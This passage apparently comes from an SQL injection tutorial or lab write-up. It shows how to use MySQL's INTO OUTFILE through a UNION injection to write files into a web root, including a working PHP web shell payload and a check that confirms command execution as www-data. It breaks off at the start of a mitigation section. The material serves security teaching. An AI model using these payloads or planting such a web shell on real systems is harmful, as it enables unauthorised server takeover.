 Let's try writing a text file to the webroot and verify if we have write permissions. The below query should write "``file written successfully!``" to the ``/var/www/html/proof.txt`` file, which we can then access on the web app:
```sql!
SELECT 'file written succesfully!' INTO OUTFILE '/var/www/html/proof.txt'
```
>[!Note]
To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use ``load_file`` to read the server configuration, like:
* **Apache's configuration** found at ``/etc/apache2/apache2.conf``,
* **Nginx's configuration** at ``/etc/nginx/nginx.conf``, or 
* **IIS configuration** at ``%WinDir%\System32\Inetsrv\Config\ApplicationHost.config``, or 
* **We can search online for other possible configuration locations.**
 
Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

The UNION injection payload would be as follows:
```sql!
cn' UNION SELECT 1,'file written succesfully',3,4 INTO OUTFILE '/var/www/html/proof.txt'-- -
```
![kuva](https://hackmd.io/_uploads/B1AXIQaUyx.png)
We don’t see any errors on the page, which indicates that the query succeeded. 

Checking for the file ``proof.txt`` in the webroot, we see that it indeed exists:
![kuva](https://hackmd.io/_uploads/rkESUXp81l.png)
>[!Note]
We see the string we dumped along with '1', '3' before it, and '4' after it. This is because the entire '``UNION``' query result was written to the file. To make the output cleaner, we can use ``""`` instead of numbers.
#### Writing a Web Shell
Having confirmed write permissions, we can go ahead and write a ``PHP`` web shell to the **webroot** folder. 

We can write the following ``PHP`` webshell to be able to execute commands directly on the back-end server:
```php!
<?php system($_REQUEST[cmd]); ?>
```

We can reuse our previous ``UNION`` injection payload, and change the string to the above, and the file name to ``shell.php``:
```sql!
cn' UNION SELECT "",'<?php system($_REQUEST[cmd]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
```
Once again, we don't see any errors, which means the file write probably worked. 

This can be verified by browsing to the ``/shell.php`` file and executing commands via the `cmd` parameter, with ``?cmd=id`` in our URL:
![kuva](https://hackmd.io/_uploads/ryTg_7TL1l.png)
The output of the ``id`` command confirms that we have code execution and are running as the ``www-data`` user.
## Mitigation
We have learned about SQLi, why they occur, and how we can exploit them. We should also learn how to avoid these types of vulnerabilities in our code and patch them when found. 
### Input Sanitization
Here's the snippet of the code from the authentication bypass section we discussed earlier:
```php
<SNIP>
```